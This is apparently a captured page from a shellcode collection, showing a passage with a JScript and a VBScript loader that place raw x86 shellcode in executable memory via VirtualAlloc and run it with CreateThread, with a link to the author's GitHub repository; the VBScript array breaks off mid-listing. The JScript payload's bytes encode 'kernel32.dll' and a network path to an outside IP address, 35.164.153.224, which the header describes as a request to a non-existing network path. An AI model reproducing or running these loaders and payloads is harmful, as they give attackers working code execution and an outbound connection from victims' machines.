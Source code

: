 ```
0x56, 0xb9, 0x8d, 0x10, 0xb7, 0xf8, 0xe8, 0x5f, 0x05, 0x05, 0x05, 0x68, 0x31, 0x01, 0x05, 0x05, 0xff, 0xd0, 0xb9, 0xe0,
0x53, 0x31, 0x4b, 0xe8, 0x4e, 0x05, 0x05, 0x05, 0xb9, 0xac, 0xd5, 0xaa, 0x88, 0x8b, 0xf0, 0xe8, 0x42, 0x05, 0x05, 0x05,
0x6a, 0x05, 0x68, 0x80, 0x05, 0x05, 0x05, 0x6a, 0x03, 0x6a, 0x05, 0x6a, 0x01, 0x68, 0x05, 0x05, 0x05, 0x80, 0x68, 0x3e,
0x01, 0x05, 0x05, 0xff, 0xd0, 0x6a, 0x05, 0xff, 0xd6, 0x33, 0xc0, 0x5e, 0xc3, 0x33, 0xd2, 0xeb, 0x10, 0xc1, 0xca, 0x0d,
0x3c, 0x61, 0x0f, 0xbe, 0xc0, 0x7c, 0x03, 0x83, 0xe8, 0x20, 0x03, 0xd0, 0x41, 0x8a, 0x01, 0x84, 0xc0, 0x75, 0xea, 0x8b,
0xc2, 0xc3, 0x8d, 0x41, 0xf8, 0xc3, 0x55, 0x8b, 0xec, 0x83, 0xec, 0x14, 0x53, 0x56, 0x57, 0x89, 0x4d, 0xf4, 0x64, 0xa1,
0x30, 0x05, 0x05, 0x05, 0x89, 0x45, 0xfc, 0x8b, 0x45, 0xfc, 0x8b, 0x40, 0x0c, 0x8b, 0x40, 0x14, 0x89, 0x45, 0xec, 0x8b,
0xf8, 0x8b, 0xcf, 0xe8, 0xd2, 0xff, 0xff, 0xff, 0x8b, 0x70, 0x18, 0x8b, 0x3f, 0x85, 0xf6, 0x74, 0x4f, 0x8b, 0x46, 0x3c,
0x8b, 0x5c, 0x30, 0x78, 0x85, 0xdb, 0x74, 0x44, 0x8b, 0x4c, 0x33, 0x0c, 0x03, 0xce, 0xe8, 0x96, 0xff, 0xff, 0xff, 0x8b,
0x4c, 0x33, 0x20, 0x89, 0x45, 0xf8, 0x33, 0xc0, 0x03, 0xce, 0x89, 0x4d, 0xf0, 0x89, 0x45, 0xfc, 0x39, 0x44, 0x33, 0x18,
0x76, 0x22, 0x8b, 0x0c, 0x81, 0x03, 0xce, 0xe8, 0x75, 0xff, 0xff, 0xff, 0x03, 0x45, 0xf8, 0x39, 0x45, 0xf4, 0x74, 0x1c,
0x8b, 0x45, 0xfc, 0x8b, 0x4d, 0xf0, 0x40, 0x89, 0x45, 0xfc, 0x3b, 0x44, 0x33, 0x18, 0x72, 0xde, 0x3b, 0x7d, 0xec, 0x75,
0x9c, 0x33, 0xc0, 0x5f, 0x5e, 0x5b, 0xc9, 0xc3, 0x8b, 0x4d, 0xfc, 0x8b, 0x44, 0x33, 0x24, 0x8d, 0x04, 0x48, 0x0f, 0xb7,
0x0c, 0x30, 0x8b, 0x44, 0x33, 0x1c, 0x8d, 0x04, 0x88, 0x8b, 0x04, 0x30, 0x03, 0xc6, 0xeb, 0xdf, 0x21, 0x05, 0x05, 0x05,
0x50, 0x05, 0x05, 0x05, 0x6b, 0x65, 0x72, 0x6e, 0x65, 0x6c, 0x33, 0x32, 0x2e, 0x64, 0x6c, 0x6c, 0x05, 0x2f, 0x2f, 0x33,
0x35, 0x2e, 0x31, 0x36, 0x34, 0x2e, 0x31, 0x35, 0x33, 0x2e, 0x32, 0x32, 0x34, 0x2f, 0x61, 0x61, 0x05];
var scLocation = DX.VirtualAlloc(0, sc.length, MEM_COMMIT, PAGE_EXECUTE_READWRITE); 
for(var i = 0; i &lt; sc.length; i++) DX.NumPut(sc[i],scLocation,i);
var thread = DX.CreateThread(0,0,scLocation,0,0);
```

[https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.js](https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.js) 

VBScript：



```
' Author : Osanda Malith Jayathissa (@OsandaMalith)
' Title: Shellcode to request a non-existing network path
' Website: https://osandamalith
' Shellcode : https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html
' Based on subTee's JS: https://gist.github.com/subTee/1a6c96df38b9506506f1de72573ceb04
Set DX = CreateObject("DynamicWrapperX")
DX.Register "kernel32.dll", "VirtualAlloc", "i=luuu", "r=u"
DX.Register "kernel32.dll","CreateThread","i=uullu","r=u" 
DX.Register "kernel32.dll", "WaitForSingleObject", "i=uu", "r=u" 
Const MEM_COMMIT = &amp;H1000
Const PAGE_EXECUTE_READWRITE = &amp;H40
shellcode = Array( _
&amp;He8, &amp;Hff, &amp;Hff, &amp;Hff, &amp;Hff, &amp;Hc0, &amp;H5f, &amp;Hb9, &amp;H55, &amp;H03, &amp;H02, &amp;H02, &amp;H81, &amp;Hf1, &amp;H02, &amp;H02, &amp;H02, &amp;H02, &amp;H83, &amp;Hc7, _
&amp;H1d, &amp;H33, &amp;Hf6, &amp;Hfc, &amp;H8a, &amp;H07, &amp;H3c, &amp;H05, &amp;H0f, &amp;H44, &amp;Hc6, &amp;Haa, &amp;He2, &amp;Hf6, &amp;He8, &amp;H05, &amp;H05, &amp;H05, &amp;H05, &amp;H5e, _
```